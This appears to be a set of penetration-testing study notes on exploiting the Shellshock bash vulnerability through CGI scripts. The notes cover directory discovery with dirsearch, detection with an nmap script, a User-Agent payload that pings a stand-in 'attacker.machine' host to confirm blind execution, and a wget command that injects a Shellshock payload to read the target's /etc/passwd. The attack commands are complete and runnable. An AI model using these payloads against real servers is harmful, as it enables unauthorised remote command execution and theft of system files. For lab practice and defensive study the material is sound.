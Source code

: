 ```
User-Agent: () { :;}; ping -c 5 -p unique_string attacker.machine
```

> if the attacker system receives the unique payload string, then this serves as confirmation that the system ran the ping command.



dirsearch - https://github.com/maurosoria/dirsearch
- Is similar to some other tools you may be familiar with such as **dirb** or **dirbuster** and is used to execute dictionary-type attacks against web servers in search For interesting files, directories, etc.

- In order to find some CGI programs on a web server, we are going to utilize:
// -e =  extensions 
// -r = recursive

```
./dirsearch.py -u http://<target ip>/ -e cgi -r
```

discovered:
// cgi-bin directory
// login.cgi file
// we can access the login.cgi


open the file in the browser
```
<target ip>/cgi-bin/login.cgi
```

### identify wheter or not the .cgi program is vulnerable to shellshock
- we can use **http-shellshock** Nmap NSE script For this.

```
nmap --script http-shellshock --script-args uri=/cgi-bin/login.cgi <target ip> -p 80
```
// its likely vulnerable

### Ways to Exploit
- There are multiple ways to exploit shellshock to gain control over a system.

```
wget -U "() { foo;}echo \"Content-type: text/plain\"; echo; /bin/cat /etc/passwd" http://<target ip>/cgi-bin/login.cgi && cat login.cgi
```
// we should get the /etc/passwd of the target


// wget will issue a GET request to the target system, use a Shellshock-ified User-Agent(-U) to echo the contents of /etc/passwd to a local file on our attacker system (login.cgi), and will then display its contents to us (&& cat login.cgi)


- Now that we confirmed that we can execute commands on the remote system, we can use that to our advantage. 

